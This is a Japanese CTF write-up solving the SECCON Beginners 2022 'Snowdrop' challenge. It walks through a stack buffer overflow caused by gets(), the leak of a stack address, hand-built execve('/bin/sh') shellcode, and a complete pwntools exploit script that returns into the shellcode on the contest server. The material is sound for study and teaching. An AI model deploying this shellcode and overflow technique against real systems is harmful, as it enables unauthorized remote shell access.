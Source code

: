 # Snowdrop

## 問題
問題のソースコードは以下より
[https://github.com/SECCON/Beginners_CTF_2022](/gqNkjtumQHS_LFtKIkKanA)
<details><summary>ソースコード</summary>

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

#define BUFF_SIZE 0x10

void show_stack(void*);

int main(void){
    char buf[BUFF_SIZE] = {0};
    show_stack(buf);
    puts("You can earn points by submitting the contents of flag.txt");
    puts("Did you understand?");
    gets(buf);
    puts("bye!");
    show_stack(buf);
}

void show_stack(void *ptr) {
    puts("stack dump...");
    printf("\n%-8s|%-20s\n", "[Index]", "[Value]");
    puts("========+===================");
    for (int i = 0; i < 8; i++) {
        unsigned long *p = &((unsigned long*)ptr)[i];
        printf(" %06d | 0x%016lx ", i, *p);
        if (p == ptr)
            printf(" <- buf");
        if ((unsigned long)p == (unsigned long)(ptr + BUFF_SIZE))
            printf(" <- saved rbp");
        if ((unsigned long)p == (unsigned long)(ptr + BUFF_SIZE + 0x8))
            printf(" <- saved ret addr");
        puts("");
    }
    puts("finish");
}

__attribute__((constructor))
void init() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    alarm(60);
}
```

</details>
    
## 方針
ソースコード中に出てくるBUFF_SIZEやgets関数などを見るとバッファオーバーフロー攻撃が有効。NXが無効であることがchecksecより分かるのでスタックへのシェルコード挿入・実行が行える。
    
### STEP1　スタックのアドレスを特定
まずはバッファオーバーフロー攻撃でスタックを書き換えるにあたりgets関数の入力がどのスタックに入るのかを考えなくてはならない。
以下、プログラムをgdbで実行した結果の一部である。
```
stack dump...

[Index] |[Value]
========+===================
 000000 | 0x0000000000000000  <- buf
 000001 | 0x0000000000000000
 000002 | 0x0000000000404260  <- saved rbp
 000003 | 0x0000000000403a92  <- saved ret addr
 000004 | 0x0000000000000000
 000005 | 0x0000000100000000
 000006 | 0x00007fffffffe2a8
 000007 | 0x0000000000401905
                                 
```
                                 
ここから6番目の出力の値が明らかに他の数値と異なっていると分かる。gdbよりスタックのアドレスが漏洩しているとみられる。なお、このときのrspは0x7fffffffe040となっていた。 
**ちなみに、runやcontinueコマンドで同時に出てくるレジスタの値とinfo frameを実行したときのレジスタの値が異なっていたので注意。どうやら今回はinfo frameを実行したときの値が正確らしい。rspの始点と終点の違いかとも思ったが0x30も差が出るとは思えない。結局原因は不明。もしかしたら偶然計算が合ってしまっただけでまだ見落としている問題があるかもしれない。**

とりあえずrspのアドレスが分かったので漏洩しているアドレスからの差分を出しておく。
    0x00007fffffffe2a8　- 0x7fffffffe040 = 0x268
この計算の意味は、今後プログラムが実行されるたびに漏洩するアドレスが変わった場合にこの計算結果からrspのアドレスを割り出せるようにするためである。
                                 
### STEP2　シェルコードの作成
                                 
これはググれば出てくるので大会においては検索するのが最善かと思われる。以下に一応攻撃用シェルコードの作成法を記しておく。
        
今回の問題ソースコードにはsystem関数が存在しないため、
```
execve("/bin/sh",{"/bin/sh",NULL},NULL)
```
を実行するシェルコードが必要である。
まずは/bin/shをバイナリに直す。/bin/shをそのままバイナリに直すと 0x0068732f6e69622f となる。しかし、シェルコードにおいて/x00はコード終端を意味しその後のコードが読まれないので/bin//shとして/x00を回避する。（なお、この時のバイナリは 0x68732f2f6e69622f である。）
続いて、実行するコードを実際にシェルコードにする。参考サイトによると、
```
BITS 64
global _start
_start:
	xor rdx, rdx                ;rdx = 0
	push rdx                    ;"/bin//sh"の終端文字
	mov rax, 0x68732f2f6e69622f ;rax = "/bin//sh"
	push rax                    ;rsp = "/bin//sh"のアドレス
	mov rdi, rsp                ;rdi = "/bin//sh"のアドレス
	push rdx                    ;
	push rdi                    ;rsp = {"/bin//sh", NULL}
	mov rsi, rsp                ;rsi = {"/bin//sh", NULL}のアドレス
	lea rax, [rdx+59]           ;rax = 59
	syscall                　　;execve("/bin//sh", {"/bin//sh", NULL}, NULL)
```
となるらしい。これをobjdumpに渡すとこうなる。
```
0000000000401000 <_start>:
  401000:       48 31 d2                xor    rdx,rdx
  401003:       52                      push   rdx
  401004:       48 b8 2f 62 69 6e 2f    movabs rax,0x68732f2f6e69622f
  40100b:       2f 73 68
  40100e:       50                      push   rax
  40100f:       48 89 e7                mov    rdi,rsp
  401012:       52                      push   rdx
  401013:       57                      push   rdi
  401014:       48 89 e6                mov    rsi,rsp
  401017:       48 8d 42 3b             lea    rax,[rdx+0x3b]
  40101b:       0f 05                   syscall
```
この出力結果をもとに入力するシェルコードが完成。
```
\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x48\x8d\x42\x3b\x0f\x05
```
これは絶対本番は素直にネットで調べるほうがいいと感じた。

### STEP3　スタックバッファオーバーフロー
ここからは実際にスタック内に埋め込む方法を考える。
まず、スタック内の状態はrsp以下次のようになっている。
１：ユーザー入力　(0x10)
２：rbpのアドレス　(0x8)
３：リターンアドレス　(0x8)
この場合、１と２を適当な文字で埋めて、３にシェルコードの先頭のアドレス、３の後にシェルコードを積めればmain関数終了後にシェルコードが実行され、シェルを奪うことができる。ここでシェルコードの先頭のアドレスはrspから1,2,3の分だけ埋まっているので0x248だけ離れていることが分かる。なので漏洩していたアドレスから0x248を引いた値を渡せればよい。よって下のようなプログラムを組むとmain関数終了後にシェルがとれる。
```
import sys
from pwn import *

bin_file = './chall'
context(os = 'linux', arch = 'amd64')

shellcode = b'\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x48\x8d\x42\x3b\x0f\x05'

def attack(conn, **kwargs):
    #saved_rbpの値を取得してstackのアドレスを特定
    conn.recvuntil(b'000006 | ')
    saved_rbp = conn.recv(18)
    print(saved_rbp)
    shellcode_addr = int(saved_rbp, 0) - 0x248 # 0x248はreturn addrとleaked addrの差分

    # buf1  = b'/bin/sh'.ljust(0x18, b'\00')
    buf1  = b'a'*0x18
    buf1 += pack(shellcode_addr)
    buf1 += shellcode

    conn.sendlineafter(b'understand?', buf1)


def main():
    conn = remote('snowdrop.quals.beginners.seccon.jp', 9002)
    # conn = process(bin_file)
#     conn = gdb.debug(bin_file, '''
#     break main
# ''')
    attack(conn)
    conn.interactive()


if __name__ == '__main__':
    main()
```

## 参考writeup
https://www.honamium.net/post/ctf4b_2022_writeup/
